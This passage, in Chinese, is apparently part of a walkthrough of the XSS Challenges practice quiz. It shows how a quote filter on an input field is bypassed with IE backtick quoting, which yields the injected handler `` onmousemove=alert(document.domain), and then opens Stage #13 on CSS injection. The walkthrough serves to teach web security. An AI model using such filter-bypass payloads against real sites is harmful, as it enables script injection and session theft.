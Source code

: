 > 可以回显为 value

**判断是否能够注入 js 代码**

提交代码

```
">hello
```

回显页面

```
hello
```

源码

```
<input type="text" name="p1" size="50" value="hello">
```

> 可以看到 `”<` 被过滤了

查看未美化的源码

```
<input type=text name=p1 size=50 value=>
```

> 但是在 IE 中可以将 `` 作为 " 使用
>
> 可测试（``）（' '）（" "）（""" """）

在 IE 中测试 ``

```
``
```

发现虽然没有回显，源码中出现了

```
<input type=text name=p1 size=50 value=``> 
```

构造事件 payload

```
`` onmousemove=alert(document.domain)
```

> 成功注入
>
> ```
> <input type=text name=p1 size=50 value=``onmousemove=alert(document.domain)> 
> ```

### 1.2.9 Stage #13 CSS 层叠样式表的 IE 特性伪协议注入

> https://xss-quiz.int21h.jp/stage13_0.php

**查看可控参数**
